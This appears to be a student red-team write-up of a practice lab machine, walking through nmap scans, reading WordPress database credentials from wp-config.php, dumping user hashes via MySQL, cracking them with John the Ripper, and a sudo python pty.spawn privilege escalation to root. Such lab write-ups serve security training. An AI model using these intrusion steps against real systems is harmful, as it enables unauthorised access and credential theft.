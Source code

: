 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services 
- Critical Vulnerabilities
- Exploitation

### Exposed Services

To begin a couple of nmap scans had to be done.  The first was to find which hosts were up.
  - Note: The "-sS" flag was used to quickly perform a TCP SYN scan on all hosts and the "-vv" was to display verbose output. 

```
nmap -sS -vv 192.168.1.0/24
```
The second scan was ran to reveal the below services and OS details.
  - Note: The "-A" flag tells nmap to scan for operating systems and services.
```
nmap -A 192.168.1.0/24
```
![nmap_OS_GitHub](https://user-images.githubusercontent.com/96896057/180900970-cde5b2a9-797e-4be8-8f8b-8d4144ed46a1.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - ssh port 22
  - http port 80
  - rpcbind port 111
  - netbios-ssn port 139
  - microsoft-ds port 445


The following vulnerabilities were identified on each target:
- Target 1
  - ssh is open 
  - http is open
  - the http has a vulnerable Wordpress server

![nmap_GitHub](https://user-images.githubusercontent.com/96896057/180901150-349de607-5be8-4917-bdaa-220ea62f1844.jpg)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
```
flag1.txt`{b9bbcb33e11b80be759c4e844862482d}
```
![flag1_GitHub](https://user-images.githubusercontent.com/96896057/180901342-66075ffa-1e88-42cf-9166-1c5b888109db.png)
- **Exploit Used**
      - ssh to users host after exploting vulnerable worpress server
        ![ssh_michael_GitHub](https://user-images.githubusercontent.com/96896057/180901239-6bba5f41-7242-413c-a7d7-3c352ac368be.jpg)

  ```
  flag2.txt`{fcfd58dcdad9ab23faca6e9a36e581c}
  ```  
![flag2_GitHub](https://user-images.githubusercontent.com/96896057/180901877-b20cc13d-f233-4406-b8e8-7b0fb698572f.png)
    
- **Exploit Used**
      - Searching content of directories.


We then ran a wpscan to see what the site was vulnerable to:

![Flag2_GitHub](https://user-images.githubusercontent.com/96896057/180901445-deee105a-67b8-460b-b804-2bdd32d45b44.jpg)

We moved into the /var/www/html/wordpress/ directory and read the contents of the wp-config.php file to reveal the following useful information:

![MySQLServer_GitHub](https://user-images.githubusercontent.com/96896057/180903525-81afe1ee-4d33-4ccd-9947-013d46d828ca.jpg)

To gain access to the SQL database while still logged in as michael we ran the following command:
    
```
mysql -u root -p
```
This gave us access to the server once we entered the credentials we found:
```
DB_User: root
DB_PASSWORD: R@v3nSecurity
```

Once inside the process of finding the other flags was done entering the following ccommands in this order:
```
show databases;
```

```
use wordpress;
```
```
show tables;
```
```
select * from wp_posts;
```
Browsing the output of the "select * from wp_posts" command gave use flag3 as shown below.
```
flag3.txt`{afc01ab56b5091e7dccf93122770cd2}
```
![flag3](https://user-images.githubusercontent.com/96896057/180903358-fefd2ed2-132e-4cf2-a75b-8e286d049e82.png)
- **Exploit Used**
      - We scanned the contents of the database to find the flag and also the users hashes, which were otained with the following command: 
```
select * from wp_users;
```
This outputted the following information:
        ![SQLContents_GitHub](https://user-images.githubusercontent.com/96896057/180902241-c9a80858-db0a-4a66-8007-ca2cda4b889f.jpg)
- **Exploit Used**
      - Once we have the hash values we copied them to a text file so we could crack them using John the Ripper offline.

![John_GitHub](https://user-images.githubusercontent.com/96896057/181392772-36f44b53-c955-445e-adc8-5a77fed48129.png)
This gave us the password value of "pink84" for steven's account.  After John is finished we can log onto steven's account, he was not included in the sudoers group, but simply by guessing we were able to find the root login password as:
```
Username: root
Password: toor
```
```
flag4.txt`{715ea6c055b9fe3337544932f291ce}
```
  ![FinalFlagRaven](https://user-images.githubusercontent.com/96896057/181392857-f4ecb93d-9390-4421-821f-1639548f18f4.png)

___
***Update:*** Upon returning to this box I ran the following command while logged in as steven:
```
sudo -l
```
This showed that steven has sudo permission's to run Python.  Upon further diving and searching online the following command can be used to properly gain 'root' on the Target1 machine:

```
sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
```